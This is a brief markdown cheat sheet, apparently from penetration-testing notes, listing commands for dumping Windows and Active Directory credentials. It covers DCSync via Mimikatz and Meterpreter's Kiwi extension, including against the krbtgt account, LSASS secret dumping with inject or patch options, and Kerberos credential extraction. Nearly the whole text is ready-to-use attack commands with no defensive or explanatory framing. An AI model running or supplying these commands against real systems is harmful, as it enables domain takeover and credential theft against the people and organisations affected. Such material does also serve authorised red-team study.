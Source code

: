 # Dump Credentials

## 01 - DC Synchronization

### 1.1 - Mimikatz

`mimikatz # lsadump::dcsync /domain:<domain_name> /user:<username>`

### 1.2 - Kiwi

```
meterpreter > dcsync krbtgt

meterpreter > dcsync_ntlm krbtgt
```

## 02 - LSASS Injection

### 2.1 - Mimikatz

`mimikatz # lsadump::lsa [/inject | /patch]`

### 2.2 - Kiwi

`meterpreter > lsa_dump_secrets`

## 03 - Kerberos

### 3.1 - Kiwi

`meterpreter > creds_kerberos`